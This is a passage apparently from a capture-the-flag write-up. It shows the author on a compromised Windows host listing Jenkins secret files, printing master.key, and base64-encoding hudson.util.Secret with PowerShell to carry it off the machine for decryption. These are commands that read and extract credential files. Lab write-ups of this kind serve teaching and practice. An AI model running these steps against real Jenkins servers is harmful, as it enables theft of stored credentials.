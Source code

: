 ```
-a----       10/20/2021  10:26 PM             32 hudson.model.Job.serverCookie                                         
-a----       10/20/2021  10:15 PM            272 hudson.util.Secret                                                    
-a----       10/20/2021  10:08 PM             32 jenkins.model.Jenkins.crumbSalt                                       
-a----       10/20/2021  10:08 PM            256 master.key                                                            
-a----       10/20/2021  10:08 PM            272 org.jenkinsci.main.modules.instance_identity.InstanceIdentity.KEY     
-a----       10/20/2021  10:21 PM              5 slave-to-master-security-kill-switch  

```

`master.key` looks like it’s stored in hex:

```

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c cat ..\..\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19

```

I can verify I got the full thing by making sure it’s the same length, 256 bytes:

```

oxdf@hacky$ wc -c master.key 
256 master.key

```

`hudson.util.Secret` looks like a binary file:

![image-20220228165017916](https://0xdfimages.gitlab.io/img/image-20220228165017916.png)

I’ll use PowerShell to base64 [encode it](https://docs.microsoft.com/en-us/previous-versions/troubleshoot/winautomation/process-development-tips/text-manipulation/convert-file-to-base64-string-format):

```

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=

```

Now I can copy that string and `echo` it into `base64 -d` on my local system to save it to a file.
